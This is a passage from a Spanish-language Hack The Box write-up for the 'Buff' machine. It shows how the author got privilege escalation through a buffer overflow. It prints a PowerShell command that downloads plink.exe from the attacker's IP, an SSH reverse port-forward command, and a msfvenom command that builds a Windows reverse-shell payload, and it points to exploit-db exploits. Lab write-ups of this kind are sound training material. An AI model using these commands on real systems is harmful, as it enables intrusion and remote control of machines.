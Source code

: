 Listo ahora si procedemos a subir el binario y ejecutarlo.

```powershell
c:\Users\shaun\Downloads>cd c:\Xampp\tmp
c:\Xampp\tmp>powershell IWR -uri http://10.10.15.86:8000/plink.exe -OutFile c:\Xampp\tmp\plink.exe
c:\Xampp\tmp>plink.exe -l root -pw hola2 -R 8888:127.0.0.1:8888 10.10.15.86
FATAL ERROR: Network error: Connection timed out
```

Acá tuve algunos problemas, ya que por alguna extraña razón (valide firewall, configuraciones, etc) no me permitía conectarme al puerto **22** (SSH), así que cambiando el puerto que estará en escucha si nos permite ejecutarlo.

```bash
$cat /etc/ssh/sshd_config
...
Port 177
...
```

Y ejecutamos:

![plinkdone](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/buff/plinkdone.png)

Perfecto, ya tenemos el puerto 8888 del localhost de la máquina 10.10.10.198 (BUFF) en nuestro equipo, lo siguiente es tomar algún exploit, crear el payload y ejecutarlo sobre nuestro localhost :)

Usaremos dos exploits, de uno obtendré como generar el payload y el otro será la estructura del script.

* [Payload](https://www.exploit-db.com/exploits/48499), aunque se puede usar este también para explotarlo, pero me pareció más legible el siguiente:
* [El que usaremos](https://www.exploit-db.com/exploits/48389).

Le diremos que nos genere una reverse Shell hacia el puerto **4433**. Primero generemos el payload con `msfvenom` (que no es lo mismo que `msfconsole` (metasploit)).

```bash
# msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -b "\x00\x0d\x0a" -f python
$msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.86 LPORT=4433 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```

El output lo ponemos en el exploit. Nos ponemos en escucha y listo, ejecutará todo sobre el **localhost:8888**.

![pyexploitandflags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/buff/pyexploitandflags.png)

...

Y listones, primer **BOF** en HTB que "hago" (en este caso simplemente lo ejecuté), sencilla, bonita y nueva para mí.

Gracias por leer y a romper todo como siempre :P